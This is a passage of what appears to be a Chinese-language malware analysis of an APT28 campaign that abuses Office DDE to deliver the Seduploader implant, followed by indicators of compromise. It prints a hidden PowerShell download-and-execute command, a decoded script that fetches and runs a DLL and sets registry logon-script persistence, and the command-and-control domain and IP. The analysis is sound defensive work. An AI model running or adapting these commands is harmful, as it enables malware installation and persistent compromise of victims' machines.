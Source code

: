 该文档利用了Office产品中最近被曝光的DDE技术，该技术能够通过Windouws的命令行命令去执行PowerShell脚本，这实际上将运行两个命令。第一个命令如下所示：

```
C:ProgramsMicrosoftOfficeMSWord.exe........WindowsSystem32WindowsPowerShellv1.0powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString(‘hxxp://netmediaresources[.]com/config.txt’);powershell -enc $e #.EXE
```

第二个PowerShell命令是经过了Base64编码的，它是从来自远程服务器的config.txt文件中找到的。解码之后，该命令如下所示：



```
$W=New-Object System.Net.WebClient;
$p=($Env:ALLUSERSPROFILE+”vms.dll”);
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = `{`$true`}`;
$W.DownloadFile(“hxxp://netmediaresources[.]com/media/resource/vms.dll “,$p);
if (Test-Path $p)`{`
$rd_p=$Env:SYSTEMROOT+”System32rundll32.exe”;
$p_a=$p+”,#1″;
$pr=Start-Process $rd_p -ArgumentList $p_a;
$p_bat=($Env:ALLUSERSPROFILE+”vms.bat”);
$text=’set inst_pck = “%ALLUSERSPROFILE%vms.dll”‘+”`r`n”+’if NOT exist %inst_pck % (exit)’+”`r`n”+’start rundll32.exe %inst_pck %,#1’
[io.File]::WriteAllText($p_bat,$text)
New-Item -Path ‘HKCU:Environment’ -Force | Out-Null;
New-ItemProperty -Path ‘HKCU:Environment’ -Name ‘UserInitMprLogonScript’ -Value “$p_bat” -PropertyType String -Force | Out-Null;
`}`
```

上面的PowerShell脚本会通过下面的URL来下载Seduploader：

```
hxxp://netmediaresources[.]com/media/resource/vms.dll
```

该Seduploader样本具有以下特征：

**文件名称：vms.dll**

**Sha1：4bc722a9b0492a50bd86a1341f02c74c0d773db7**

**编译时间：2017-10-31 20:11:10**

**控制服务器：webviewres[.]net**

<br>

**第一阶段**

文件将下载Seduploader第一阶段的侦察植入版本，它的作用是将受感染系统的基本主机信息提供给攻击者。如果该系统正好是攻击者感兴趣的目标，通常会进一步安装X-Agent或Sedreco。

根据各种公开的报告来看，APT28将Seduploader用于第一阶段的payload已经有些年头了。通过分析这次攻击活动中发现的最新payload的代码结构，我们发现，其与APT28以前使用的Seduploader样本完全吻合。

我们发现，这次攻击活动中的控制服务器的域名为webviewres[.]net，它与APT28过去的域名注册手法是非常一致的：伪装成一个看上去好像很正规的合法机构。 这个域名于10月25日注册，比payload和恶意文件的创建日期早了好几天。这个域名在10月29日首次激活，这个时间节点正好比这个版本的Seduploader的编译时间早了那么几天。 目前，该域名的IP地址为185.216.35.26，并托管在域名服务器ns1.njal.la和ns2.njal.la上面。
